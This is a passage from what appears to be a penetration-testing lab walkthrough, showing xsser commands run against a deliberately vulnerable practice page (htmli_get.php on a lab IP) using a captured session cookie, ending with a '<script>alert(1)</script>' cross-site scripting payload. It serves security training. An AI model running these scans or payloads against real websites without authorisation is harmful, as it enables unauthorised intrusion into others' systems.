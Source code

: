- Run the **`xsser`** tool by
  - replacing the `firstname` value string with `XSS`
  - feeding the Cookie
  - stop BurpSuite interceptor

```bash
xsser --url "http://192.56.179.3/htmli_get.php?firstname=XSS&lastname=hi&form=submit" --cookie="PHPSESSID=lb3rg4q495t9sqph907sdhjgg1; security_level=0"
```

![](.gitbook/assets/image-20230505004208373.png)

```bash
xsser --url "http://192.56.179.3/htmli_get.php?firstname=XSS&lastname=hi&form=submit" --cookie="PHPSESSID=lb3rg4q495t9sqph907sdhjgg1; security_level=0" --Fp "<script>alert(1)</script>"
```
